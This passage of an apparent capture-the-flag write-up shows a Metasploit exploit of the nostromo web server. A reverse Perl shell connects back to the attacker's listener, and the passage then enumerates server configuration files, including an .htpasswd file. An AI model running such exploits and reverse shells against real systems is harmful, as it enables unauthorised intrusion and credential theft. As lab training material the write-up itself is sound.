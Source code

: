 
    Payload options (cmd/unix/reverse_perl):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.15.7       yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic (Unix In-Memory)


    msf5 exploit(multi/http/nostromo_code_exec) > run

    [*] Started reverse TCP handler on 10.10.15.7:4444
    [*] Configuring Automatic (Unix In-Memory) target
    [*] Sending cmd/unix/reverse_perl command payload
    [*] Command shell session 2 opened (10.10.15.7:4444 -> 10.10.10.165:56360) at 2019-11-27 09:50:39 +0100

    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

## nostromo

We got a shell as `www-data`. We start enumerating the box. There is a specific
folder for the [nostromo web server](http://www.nazgul.ch/dev_nostromo.html). In
`/var/nostromo/` we found some configuration files.

    :::text
    ls /var/
    backups
    cache
    lib
    local
    lock
    log
    mail
    nostromo
    opt
    run
    spool
    tmp
    ls /var/nostromo/
    conf
    htdocs
    icons
    logs
    ls -al /var/nostromo/
    total 24
    drwxr-xr-x  6 root     root   4096 Oct 25 14:43 .
    drwxr-xr-x 12 root     root   4096 Oct 25 14:43 ..
    drwxr-xr-x  2 root     daemon 4096 Oct 27 16:12 conf
    drwxr-xr-x  6 root     daemon 4096 Oct 25 17:11 htdocs
    drwxr-xr-x  2 root     daemon 4096 Oct 25 14:43 icons
    drwxr-xr-x  2 www-data daemon 4096 Nov 27 03:39 logs
    ls -al /var/nostromo//conf/
    total 20
    drwxr-xr-x 2 root daemon 4096 Oct 27 16:12 .
    drwxr-xr-x 6 root root   4096 Oct 25 14:43 ..
    -rw-r--r-- 1 root bin      41 Oct 25 15:20 .htpasswd
    -rw-r--r-- 1 root bin    2928 Oct 25 14:26 mimes
    -rw-r--r-- 1 root bin     498 Oct 25 15:20 nhttpd.conf
